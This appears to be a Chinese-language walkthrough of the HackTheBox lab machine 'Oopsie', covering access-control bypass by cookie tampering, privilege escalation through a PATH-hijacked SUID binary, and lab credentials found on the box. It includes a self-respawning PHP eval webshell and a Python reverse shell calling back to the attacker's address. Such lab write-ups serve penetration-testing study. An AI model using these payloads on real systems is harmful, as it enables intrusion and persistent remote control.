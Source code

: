nmap扫描结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141459039.png)

---

题目提示要进行登录操作,发现存在路径`cdn-cgi/login`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141522417.png)

[Login as guest](http://10.129.21.248/cdn-cgi/login/admin.php)跳转到`cdn-cgi/login/admin.php`

点击account,注意到`?content=accounts&id=2`,id参数可能存在注入??

发现对于不同的id,回显的结果不同,用intruder进行爆破

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141644629.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141643534.png)

[文件上传](http://10.129.21.248/cdn-cgi/login/admin.php?content=uploads)

提示要super admin权限

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141802996.png)

注意到在`Cookie`中定义了`user`和`role`,网站可能根据cookie来判断用户身份,根据爆破得到的id和name替换cookie中的值,成功冒充super admin

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141805958.png)

上传webshell即可,但发现疑似存在定时清理程序,因此上传不死马

```php
<?php 
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = 'shell.php';
$code = '<?php @eval($_POST[a]);?>';
while (1){
    file_put_contents($file,$code);
    usleep(1000);
}
?>
```

在`/var/www/html/cdn-cgi/login/admin.php`中

```php
if($_GET["content"]==="clients"&&$_GET["orgId"]!="")
{
	$stmt=$conn->prepare("select name,email from clients where id=?");
	$stmt->bind_param('i',$_GET["orgId"]);
	$stmt->execute();
	$stmt=$stmt->get_result();
	$stmt=$stmt->fetch_assoc();
	$name=$stmt["name"];
	$email=$stmt["email"];
	echo '<table><tr><th>Client ID</th><th>Name</th><th>Email</th></tr><tr><td>'.$_GET["orgId"].'</td><td>'.$name.'</td><td>'.$email.'</td></tr></table';
}
```

在`/var/www/html/cdn-cgi/login/db.php`中

```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

可能可以作为`robert`用户的密码

在`/var/www/html/cdn-cgi/login/index.php`中

```php
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
{
	$cookie_name = "user";
	$cookie_value = "34322";
	setcookie($cookie_name, $cookie_value, time() + (86400 * 30), "/");
	setcookie('role','admin', time() + (86400 * 30), "/");
	header('Location: /cdn-cgi/login/admin.php');
}
```

存在python3,利用其进行反弹shell


```python
import socket
import subprocess
import os
ip="10.10.16.45"
port=8000
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((ip,port));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

将反弹回来的shell转换为交互式的shell

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141956768.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141957154.png)

可以通过ssh直接连接

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141725083.png)

题目提示存在`SUID`

`find / -user root -perm -4000 -print 2>/dev/null`

```bash
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
robert@oopsie:~$ find / -user root -perm -4000 -print 2>/dev/null
/snap/core/11420/bin/mount
...
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/bugtracker
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/sudo
```

发现`/usr/bin/bugtracker`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142000440.png)

该程序根据输入执行`cat /root/reports/xxx`,注意到这里的`cat`可能为相对路径,因此可能可以利用`SUID`进行提权操作

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142011724.png)

确实是直接使用了相对路径的`cat`,因此可以进行提权操作

改变当前目录的`PATH`,使`robert`执行`bugtracker`时优先使用当前的`PATH`变量

假设将`PATH`设置为`/tmp`目录,而在`/tmp`目录下存在一个名为`cat`的可执行文件,文件内容为`/bin/bash`,在执行`bugtracker`会以`root`权限执行`/bin/bash`由此获得`root shell`

`export PATH=/tmp:$PATH`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142017367.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142018460.png)
